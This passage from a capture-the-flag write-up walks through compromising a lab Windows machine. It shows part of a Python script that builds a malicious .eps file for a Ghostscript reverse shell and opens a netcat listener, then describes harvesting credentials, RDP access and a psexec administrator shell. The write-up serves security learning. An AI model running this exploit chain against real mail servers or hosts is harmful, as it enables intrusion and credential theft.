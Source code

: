 ```python
    filename = filename + '.eps'
    with open(filename, 'w') as file:
        file.write(content)

def main():
    ip, port, filename = get_user_input()
    payload = generate_payload(ip, port)
    generate_payload_file(filename, payload)
    print(f"\n[+] Generated malicious .eps file: {filename}.eps")
    print(f"[+] Popping your courtesy netcat shell: {ip} -lvnp {port}")
    print(f"[+] Log into RoundCubeMail and reply to Dr Brown's email, \n    attach {filename}.eps and send. Rev Shell takes a few seconds :)")
    command = f'qterminal -e "bash -c \'nc -lvnp {port}; exec bash\'"'
    subprocess.Popen(command, shell=True)

if __name__ == "__main__":
    main()
```


![](https://i.imgur.com/dFW6wpF.png)

- Make sure to upload the `.eps` file that was generated to the server, in my case `whoami.eps`
- Start up your listener with `netcat`
- Send the `whoami.eps` file back, as a message and you should get shell back

Checking the `ghostscript.bat` on our default documents directory we found a username and password


![](https://i.imgur.com/5OvsOAm.png)

We can therefore gain RDP access since port `3389` is opened


![](https://i.imgur.com/yjI8Q0M.png)


I created a `lol.txt` file on document and opened it **blank**, after noticing that there is a script or should i say a cronjob 🤔,  that writes the user **administrator**, username and password automatically for us into a login page after double clicking the `ghostscript.bat`


![](https://i.imgur.com/xZt4lMM.png)


We can then use `psexec.py` to get administrator shell


![](https://i.imgur.com/Pcp7EEj.png)

Admin flag stored in 

```
C:\Users\Administrator\Desktop
```

- Would say am not really that good at solving windows boxes, so if you have any opinions, feel free to reach out, thanks 💌




<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>








